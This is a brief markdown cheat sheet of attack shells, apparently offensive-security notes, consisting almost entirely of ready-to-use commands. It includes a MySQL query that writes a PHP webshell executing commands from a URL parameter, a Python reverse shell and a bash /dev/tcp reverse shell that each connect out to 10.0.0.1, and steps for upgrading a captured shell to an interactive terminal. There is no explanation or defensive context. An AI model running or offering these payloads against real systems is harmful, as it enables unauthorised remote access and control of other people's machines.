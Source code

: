 # Shells

## Webshell

### Mysql

```text
SELECT '<?php passthru($_GET[cmd]);?>' INTO OUTFILE '<file_location>/<filename>'
```

## Python

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Reverse shell bash

```text
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```



## Get better shell

```text
python -c 'import pty; pty.spawn("/bin/sh")'
ctrl + z
stty raw -echo
fg
reset
```

\`\`


